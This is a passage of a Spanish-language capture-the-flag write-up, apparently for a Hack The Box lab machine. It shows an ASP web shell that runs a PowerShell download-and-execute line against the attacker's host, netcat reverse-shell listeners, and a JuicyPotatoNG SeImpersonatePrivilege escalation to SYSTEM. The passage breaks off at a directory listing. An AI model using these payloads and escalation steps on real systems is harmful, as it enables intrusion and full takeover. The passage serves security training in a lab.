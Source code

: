 Modifiquemos el archivo que creamos para entablarnos una consola interactiva hacía nuestro equipo

{% highlight vb %}
<%
  Dim shell
  
  shell = CreateObject("WScript.Shell")
  Response.Write(shell.Run("powershell IEX((New-Object Net.WebClient).DownloadString('http://10.10.14.39:8001/util.ps1'))"))
  'Coloco en la respuesta el código de salida del programa para comodidad.'
%>
{% endhighlight %}

{% highlight powershell %}
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.187 51158
Windows PowerShell Testing 
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>
{% endhighlight %}

Este es el usuario `iis apppool\defaultapppool`, y es técnicamente una cuenta con varios privilegios que se le asigna a por defecto al IIS, por lo que tenemos el "SeImpersonatePrivilege" y si llegaramos a obtener un ticket de Kerberos como esta cuenta (Puedes con Rubeus) podríamos dumpear todo el NTDS, pero vamos a aprovecharnos del SeImpersonatePrivilege con JuicyPotatoNG y netcat.

{% highlight powershell %}
PS C:\Temp> curl -o potato.exe http://10.10.14.39:8001/JuicyPotatoNG.exe
PS C:\Temp> curl -o nc64.exe http://10.10.14.39:8001/nc64.exe
PS C:\Temp> .\potato.exe -p C:\Temp\nc64.exe -a "-e cmd.exe 10.10.14.39 8443" -t t
{% endhighlight %}

{% highlight bash %}
❯ rlwrap nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 10.10.11.187 51278
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
whoami
nt authority\system
{% endhighlight %}

Ahora podemos tomar la última flag

{% highlight bash %}
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1DF4-493D

 Directory of C:\Users\Administrator

10/31/2022  11:34 AM    <DIR>          .
10/31/2022  11:34 AM    <DIR>          ..
06/07/2022  08:14 AM    <DIR>          3D Objects
09/22/2022  01:08 PM    <DIR>          Carbon
09/22/2022  01:16 PM    <DIR>          Contacts
06/07/2022  06:23 AM           141,750 DeploymentConfigTemplate.xml
09/22/2022  01:48 PM    <DIR>          Desktop
06/07/2022  08:14 AM    <DIR>          Documents
06/07/2022  08:14 AM    <DIR>          Downloads
06/07/2022  08:14 AM    <DIR>          Favorites
06/07/2022  08:14 AM    <DIR>          Links
06/07/2022  08:14 AM    <DIR>          Music
06/07/2022  08:14 AM    <DIR>          Pictures